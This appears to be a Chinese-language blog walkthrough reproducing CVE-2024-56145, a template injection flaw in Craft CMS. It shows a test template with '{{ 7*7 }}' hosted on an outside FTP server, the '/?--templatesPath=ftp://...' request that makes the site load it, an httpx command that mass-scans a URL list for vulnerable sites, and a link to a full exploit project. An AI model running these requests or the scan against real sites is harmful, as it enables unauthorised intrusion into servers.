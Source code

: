 ![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiccm9kwy6j9rUPza8phHvXPMibSjRhL4sfxMWAL0qGOWc4MuSxKBia5EegubkxiaqdxDqPBAynAgosotQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiccm9kwy6j9rUPza8phHvXPMibj0NMayR8SicexNFicFTs8U6dRDlUV2anFrvxa7tIEgCXFzPtehExZ2Q/640?wx_fmt=png&from=appmsg "")  
#### 使用文件夹访问也可以  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiccm9kwy6j9rUPza8phHvXPMElQOX5gfQ5Ovk9mkEHsxNLktxPGTH1eKmk2oeWaXgPl0yAlDicJbMiaA/640?wx_fmt=png&from=appmsg "")  
####   
### 创建EXP  
  
**在ftp开启目录创建一个default文件夹**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiccm9kwy6j9rUPza8phHvXPMAuIlYbFUqp6d1pTYDnbUTbl5l8XDzeemFpL8TxNXv3EdfN8VARPJkA/640?wx_fmt=png&from=appmsg "")  
  
**再再default文件中创建一个index.html**  
  
****  
  
**index.html**  
```
<html><body>hello world {{ 7*7 }}</body></html>
```  
### 访问EXP  
```
/?--templatesPath=ftp://ftp地址:ftp端口
```  
  
**{{ 7*7}} 被正常解析**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiccm9kwy6j9rUPza8phHvXPMNbTNSiaOian5YSlSPSpvOhSDDhG0x8NIJXaMygWdtvzvDVwZO8FCWrew/640?wx_fmt=png&from=appmsg "")  
  
****  
**ftp收到数据**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiccm9kwy6j9rUPza8phHvXPMAa7EDsvqNWvUWrHJnIfpicWqEgYZic6NibHiavYjfdYIM14knslknYNvLQ/640?wx_fmt=png&from=appmsg "")  
  
### httpx快速验证  
> **注意：在开启ftp服务的情况下运行**  
  
```
httpx.exe -path "/?--templatesPath=ftp://189.204.186.73:6666/" -sc -cl -mc 200  -l url.txt -ms "hello world 49"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiccm9kwy6j9rUPza8phHvXPMNkpp5vb5egryWBtpicCyRvb60noW2icfJPzG6ib5weygGZBp8hEnvJVjA/640?wx_fmt=png&from=appmsg "")  
  
### 复现的问题  
> **如果发现页面报错server Error，并且FTP没有响应，可能是网站不出网，无法请求到FTP服务器**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiccm9kwy6j9rUPza8phHvXPMq1UibrF1NrBWIDKPzXpuARiaKaibTQH0PpH1CwA6X1qc3djlh52okA6Eg/640?wx_fmt=png&from=appmsg "")  
## 成熟的EXP项目  
```
https://github.com/Chocapikk/CVE-2024-56145/tree/main
```  
  